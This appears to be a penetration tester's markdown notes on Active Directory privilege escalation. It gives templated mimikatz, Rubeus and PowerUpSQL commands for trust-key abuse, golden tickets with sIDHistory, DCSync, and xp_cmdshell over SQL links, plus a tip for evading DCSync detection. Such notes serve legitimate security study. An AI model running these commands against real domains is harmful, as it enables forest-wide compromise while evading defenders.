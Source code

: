 # Privilege Escalation

## Local Privilege Escalation
- Unquoted Service Paths
- Service Permissions

### Privilege Escalation in Active Directory

#### Kerberos Delegations
- [Kerberos Delegations](Kerberos_Delegation.md)

### Privilege Escalation across trust relationships (Within Forest)

#### Trust-key Abuse
Trust key can be extracted by any of below mimikatz command variants. By default, all trust keys within forest use RC4 encyption, so we have to use `/RC4` parameter when utilizing mimikatz to abuse trust keys.
- `lsadump::trust /patch` (In trust-key is required , marked as `Child Domain -> Parent Domain`)
- `lsadump::dcsync /user:<Child domain netbios name>\<Parent domain netbios name>$`
- `lsadump::lsa /patch`

#### sIDHistory Injection
The kerberos golden module is used to abuse the sIDHistory feature. The trust-key obtained from previous step will be required to sign the ticket and is passed to the parent domain. The below mimikatz command is to forge an inter-realm TGT. Using the forged TGT, TGS can be requested for parent domain DC. 
- `kerberos::golden /domain:<FQDN of current domain> /sid:<Current domain SID> /sids:<sIDHistory of Enterprise Admin group> /rc4:<trust key> /user:<impersonate user>
/service:krbtgt /target:<parent domain> /ticket:<path/to/ticket.kirbi>`
- `Rubeus.exe asktgs /ticket:<path/to/ticket.kirbi> /service:<service/parent DC FQDN> /dc:<Parent DC FQDN> /ptt`

#### Abuse of krbtgt hash of child-domain
Here we are forcefully setting Enterprise Admin's SID for current child domain. This TGT will have a SID history of Enterprise Admin's group which will allow access to forest root DC.
- `kerberos::golden /user:<impersonate user> /domain:<current domain FQDN> /sid:<current domain SID> /sids:<sIDHistory of Enterprise Admin group> /krbtgt:<current domain krbtgt hash> /ticket:<path\to\ticket.kirbi>` 

> DCSync attacks can be detected by identity protection solutions. To avoid such detections, we can do sIDHistory attacks in such a way that it looks like a child DC is syncing with parent DC. The below mimikatz command demonstrates the above comments.
`````powershell
> kerberos::golden /user:child-dc$ /domain:<child domain FQDN> /sid:<child domain SID> /groups:516 /sids:<parent domain SID-516>, S-1-5-9 /krbtgt:<child domain krbtgt hash> /ptt
> lsadump::dcsync /user:<parent domain\Administrator> /domain:<parent domain FQDN>
`````
Details of RIDs:
- `516` - Domain Controllers
- `S-1-5-9` - Enterprise Domain Controllers (to be used only when escalating to forest root)

### AD-CS Abuse

- [Privilege Escaltion abusing AD-CS](AD_CS.md#privilege-escalation-with-ad-cs-abuse)

### MS-SQL service abuse
- Domain users can be mapped to database roles. (Compromised users might have roles on SQL server)
- PowerUpSQL tool can be utilized SQL service enumeration and privilege escalation

#### MS-SQL service enumeration 
- SPN Scanning to find SQL servers (`Get-SQLInstanceDomain`)
- Connectivity test to the discovered SQL servers (`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded`)
- SQL servers information can be obtained by `Get-SQLServerinfo -Verbose` (We should only run this for accessible SQL servers only)
- SQL server link crawling allows to identify *Database Links* between multiple SQL servers, which are used for accesseing data from external sources . **Database links works across forest trusts**.
    - `Get-SQLServerLinkCrawl -Instance <available SQL server> -Verbose` would allow to perform a link crawl across SQL servers recursively.
    - `Get-SQLServerLinkCrawl -Instance <available SQL server> -Query "exec master..xp_cmdshell 'whoami'"` would allow to check for possible code execution across linked SQL servers.